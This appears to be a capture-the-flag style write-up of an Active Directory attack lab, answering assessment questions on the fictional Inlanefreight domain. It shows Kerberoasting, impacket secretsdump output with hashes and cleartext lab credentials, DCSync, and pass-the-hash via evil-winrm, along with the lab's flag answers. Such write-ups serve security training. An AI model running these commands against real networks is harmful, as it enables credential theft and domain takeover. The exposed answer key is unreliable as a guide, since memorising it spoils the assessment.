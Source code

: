 # AD Enumeration & Attacks - Skills Assessment Part I

### Scenario

A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part I of the skills assessment.

### Questions

**Submit the contents of the flag.txt file on the administrator Desktop of the web server**

<figure><img src="../../../.gitbook/assets/image (49) (2).png" alt=""><figcaption><p>got a revshell and obtained the flag.</p></figcaption></figure>

**Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>svc_sql</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (60) (2).png" alt=""><figcaption></figcaption></figure>

**Crack the account's password. Submit the cleartext value.**

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>lucky7</p></figcaption></figure>

**Submit the contents of the flag.txt file on the Administrator desktop on MS01**

we have to know what IP does MS01 has&#x20;

```
Resolve-IPAddress -ComputerName MS01
```

<figure><img src="../../../.gitbook/assets/image (20) (3).png" alt=""><figcaption><p>172.16.6.50</p></figcaption></figure>

When SMB scan was performed, there were ADMIN$ and C$ shares, which were read and writable.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption><p>Admin share writable</p></figcaption></figure>

Next logical step is to run impacket-psexec to gain a shell using this credential.

```
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> systeminfo
 
Host Name:                 MS01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA100
Original Install Date:     3/30/2022, 3:56:23 AM
System Boot Time:          7/5/2023, 10:04:57 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-06:00) Central Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,198 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 4,000 MB
Virtual Memory: In Use:    799 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    INLANEFREIGHT.LOCAL
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5009472
                           [02]: KB4535680
                           [03]: KB4589208
                           [04]: KB5010427
                           [05]: KB5009642
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.6.50
                                 [02]: fe80::fc35:9ed3:e474:d620
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Windows\system32> 

```

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption><p>spn$<em>r0ast1ng_on</em>@n_0p3n_f1re</p></figcaption></figure>

Note that RDP is also available for this host.

**Find cleartext credentials for another domain user. Submit the username as your answer.**

<figure><img src="../../../.gitbook/assets/image (16) (2).png" alt=""><figcaption><p>nothing useful</p></figcaption></figure>

```
proxychains impacket-secretsdump INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50 -outputfile inlanefreight_hashes 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9521a9e7c65245ab8cdd792e7f6d20df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/tpetty:$DCC2$10240#tpetty#685decd67a67f5b6e45a182ed076d801
INLANEFREIGHT.LOCAL/svc_sql:$DCC2$10240#svc_sql#acc5441d637ce6aabf3a3d9d4f8137fb
INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#9553faad97c2767127df83980f3ac245
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
INLANEFREIGHT\MS01$:aes256-cts-hmac-sha1-96:7ec92cbf5c0978d63da9ca099e9e15131fa9f8f83f6e0c850dc27fbf5bd3c294
INLANEFREIGHT\MS01$:aes128-cts-hmac-sha1-96:34eddfc4c6391fe4fcea4cd8e6f000aa
INLANEFREIGHT\MS01$:des-cbc-md5:1a2c5df13885f80b
INLANEFREIGHT\MS01$:plain_password_hex:19e615bcf39b1aa4ee984e52f1d993a21c6943bd6d90ca901ff0a676620f637ee41049607477f7560972a707da615942143dd3ec94e50b4a73d1539f51e312b591594d5b365a52d56cfc4cc2bbe4cd5014165fd6e9ba47530321d9361e63a6de7400435ab03b6c15e45f222bb511637855b14f7807cd3b29622540ffadf25300326fea2d197d42dd0e70eb082147e355596f39ee809ce68092d89e56f6427824d436b3a932da26f4bfcf7cf0ec8024e222af81521df95eeca49d8a9260baafc27725e940c28299dfa54a6e997aa673d77f00d0bdf7a389aaf4cf0037f6c9d8165b6b185ec135b59eda45b74170a91ec6
INLANEFREIGHT\MS01$:aad3b435b51404eeaad3b435b51404ee:e97a877bf59d4102321bded442896bee:::
[*] DefaultPassword 
INLANEFREIGHT\tpetty:Sup3rS3cur3D0m@inU2eR
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x8dbe842a7352000be08ef80e32bb35609e7d1786
dpapi_userkey:0xb20d199f3d953f7977a6363a69a9fe21d97ecd19
[*] NL$KM 
 0000   A2 52 9D 31 0B B7 1C 75  45 D6 4B 76 41 2D D3 21   .R.1...uE.KvA-.!
 0010   C6 5C DD 04 24 D3 07 FF  CA 5C F4 E5 A0 38 94 14   .\..$....\...8..
 0020   91 64 FA C7 91 D2 0E 02  7A D6 52 53 B4 F4 A9 6F   .d......z.RS...o
 0030   58 CA 76 00 DD 39 01 7D  C5 F7 8F 4B AB 1E DC 63   X.v..9.}...K...c
NL$KM:a2529d310bb71c7545d64b76412dd321c65cdd0424d307ffca5cf4e5a03894149164fac791d20e027ad65253b4f4a96f58ca7600dd39017dc5f78f4bab1edc63
[*] Cleaning up... 
[*] Stopping service RemoteRegistry

```

```
tpetty:Sup3rS3cur3D0m@inU2eR
```

**Submit this user's cleartext password.**

```
Sup3rS3cur3D0m@inU2eR
```

**What attack can this user perform?**

```
$sid = Convert-NameToSid tpetty
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

<figure><img src="../../../.gitbook/assets/image (38) (1).png" alt=""><figcaption><p>DS-Replication-Get-Changes-All</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>DS-Replication-Get-Changes-In-Filtered-Set</p></figcaption></figure>



DCSync

**Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

First we have to know what IP is the DC by using the following command.

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption><p>172.16.6.3</p></figcaption></figure>

```
proxychains impacket-secretsdump -just-dc INLANEFREIGHT/tpetty:'Sup3rS3cur3D0m@inU2eR'@172.16.6.3 -outputfile ilf_dcsync
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

We got the administrator hash, I tried to crack it but doesn't seems to work the next step will be pass the hash attack because of the dcsync command seems to be going on forever with more than thousand people already.

`27dedb1dab4d8545c6e1c66fba077da0`

xfreerdp didn't work but evil-winrm did

```
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption><p>r3plicat1on_m@st3r!</p></figcaption></figure>
